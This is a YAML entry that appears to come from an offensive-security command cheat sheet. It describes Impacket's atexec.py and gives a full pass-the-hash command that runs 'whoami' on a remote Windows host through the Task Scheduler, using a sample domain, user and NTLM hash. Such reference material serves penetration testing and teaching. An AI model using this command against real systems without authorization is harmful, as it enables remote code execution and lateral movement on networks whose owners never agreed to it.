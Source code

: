 ```yaml
---
description: |
  Impacket's atexec.py uses the Task Scheduler service on the remote Windows host to execute the given command. It will create a windows task with a random name, trigger the task, and then delete it. The following command executes `whoami` on the remote Windows host, authenticating with the hash of user `john`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76

  	Command Executed: whoami
command: |
  python3 atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 test.local/john@10.10.10.1 whoami
items:
  - Hash
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py
  - https://u0041.co/blog/post/1
---
```

